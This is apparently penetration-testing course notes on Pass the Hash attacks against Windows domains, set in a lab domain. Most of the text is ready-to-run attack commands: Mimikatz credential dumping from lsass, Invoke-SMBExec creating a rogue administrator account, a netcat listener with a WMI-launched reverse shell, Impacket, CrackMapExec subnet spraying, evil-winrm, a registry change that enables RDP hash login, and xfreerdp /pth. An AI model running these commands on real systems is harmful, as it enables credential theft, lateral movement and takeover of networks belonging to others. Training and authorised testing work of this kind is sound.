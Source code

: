 # Pass the Hash (PtH)
A Pass the Hash (PtH) attack is a technique where an attacker uses a password hash instead of the plain text password for authentication. The attacker doesn't need to decrypt the hash to obtain a plaintext password. PtH attacks exploit the authentication protocol, as the password hash remains static for every session until the password is changed.

    Dumping the local SAM database from a compromised host.
    Extracting hashes from the NTDS database (ntds.dit) on a Domain Controller.
    Pulling the hashes from memory (lsass.exe).


## Pass the Hash from Windows Using Mimikatz:

```
> .\mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" "exit" >> c:\tmp\mimikatz_output.txt` 

> mimikatz.exe privilege::debug "sekurlsa::pth /user:julio /rc4:64f12cddaa88057e06a81b54e73b949b /domain:inlanefreight.htb /run:cmd.exe" exit
```

Now we can use cmd.exe to execute commands in the user's context. For this example, julio can connect to a shared folder named julio on the DC.

```
> dir \\dc01\julio
```

## Pass the Hash with PowerShell Invoke-TheHash (Windows) [https://github.com/Kevin-Robertson/Invoke-TheHash]
- Target - Hostname or IP address of the target.
- Username - Username to use for authentication.
- Domain - Domain to use for authentication. This parameter is unnecessary with local accounts or when using the @domain after the username.
- Hash - NTLM password hash for authentication. This function will accept either LM:NTLM or NTLM format.
- Command - Command to execute on the target. If a command is not specified, the function will check to see if the username and hash- have access to WMI on the target.

The following command will use the SMB method for command execution to create a new user named mark and add the user to the Administrators group.

### Invoke-TheHash with SMB
```
PS > Import-Module .\Invoke-TheHash.psd1
PS > Invoke-SMBExec -Target 10.129.186.240 -Domain inlanefreight.htb -Username david -Hash c39f2beb3d2ec06a62cb887fb391dee0 -Command "net user mark Password123 /add && net localgroup administrators mark /add" -Verbose
```

To get a reverse shell, we need to start our listener using Netcat on our Windows machine, which has the IP address 172.16.1.5. We will use port 8001 to wait for the connection.

#### Netcat Listener
```
c:\htb> .\nc.exe -lvnp 8001
```

Now we can execute Invoke-TheHash to execute our PowerShell reverse shell script in the target computer. Notice that instead of providing the IP address, which is 172.16.1.10, we will use the machine name DC01 (either would work).

```
Import-Module .\Invoke-TheHash.psd1
Invoke-WMIExec -Target DC01 -Domain inlanefreight.htb -Username julio -Hash 64f12cddaa88057e06a81b54e73b949b -Command "powershell -e "
```

## Pass the Hash with Impacket (Linux)
### Pass the Hash with Impacket PsExec
```
$ impacket-psexec administrator@10.129.201.126 -hashes :30B3783CE2ABF1AF70F77D0660CF3453
```

There are several other tools in the Impacket toolkit we can use for command execution using Pass the Hash attacks, such as:
- impacket-wmiexec [https://github.com/SecureAuthCorp/impacket/blob/master/examples/wmiexec.py]
- impacket-atexec [https://github.com/SecureAuthCorp/impacket/blob/master/examples/atexec.py]
- impacket-smbexec [https://github.com/SecureAuthCorp/impacket/blob/master/examples/smbexec.py]

## Pass the Hash with CrackMapExec (Linux)
```
# crackmapexec smb 172.16.1.0/24 -u Administrator -d . -H 30B3783CE2ABF1AF70F77D0660CF3453
```
If we want to perform the same actions but attempt to authenticate to each host in a subnet using the local administrator password hash, we could add --local-auth to our command. This method is helpful if we obtain a local administrator hash by dumping the local SAM database on one host and want to check how many (if any) other hosts we can access due to local admin password re-use. If we see Pwn3d!, it means that the user is a local administrator on the target computer. We can use the option -x to execute commands. It is common to see password reuse against many hosts in the same subnet. Organizations will often use gold images with the same local admin password or set this password the same across multiple hosts for ease of administration. If we run into this issue on a real-world engagement, a great recommendation for the customer is to implement the Local Administrator Password Solution (LAPS), which randomizes the local administrator password and can be configured to have it rotate on a fixed interval.



### CrackMapExec - Command Execution
```
# crackmapexec smb 10.129.201.126 -u Administrator -d . -H 30B3783CE2ABF1AF70F77D0660CF3453 -x whoami
```

## Pass the Hash with evil-winrm (Linux)
### Pass the Hash with evil-winrm
```
# evil-winrm -i 10.129.201.126 -u Administrator -H 30B3783CE2ABF1AF70F77D0660CF3453
```

## Pass the Hash with RDP (Linux)
There are a few caveats to this attack:

    Restricted Admin Mode, which is disabled by default, should be enabled on the target host; otherwise, you will be presented with the following error:

This can be enabled by adding a new registry key DisableRestrictedAdmin (REG_DWORD) under HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control\Lsa with the value of 0. It can be done using the following command:

### Enable Restricted Admin Mode to Allow PtH
```
c:\tools> reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
```

Once the registry key is added, we can use xfreerdp with the option /pth to gain RDP access:

### Pass the Hash Using RDP
```
xfreerdp  /v:10.129.201.126 /u:julio /pth:64F12CDDAA88057E06A81B54E73B949B
```

## UAC Limits Pass the Hash for Local Accounts
UAC (User Account Control) limits local users' ability to perform remote administration operations. When the registry key HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System\LocalAccountTokenFilterPolicy is set to 0, it means that the built-in local admin account (RID-500, "Administrator") is the only local account allowed to perform remote administration tasks. Setting it to 1 allows the other local admins as well.

Note: There is one exception, if the registry key FilterAdministratorToken (disabled by default) is enabled (value 1), the RID 500 account (even if it is renamed) is enrolled in UAC protection. This means that remote PTH will fail against the machine when using that account.

These settings are only for local administrative accounts. If we get access to a domain account with administrative rights on a computer, we can still use Pass the Hash with that computer. If you want to learn more about LocalAccountTokenFilterPolicy, you can read Will Schroeder's blog post Pass-the-Hash Is Dead: Long Live LocalAccountTokenFilterPolicy.
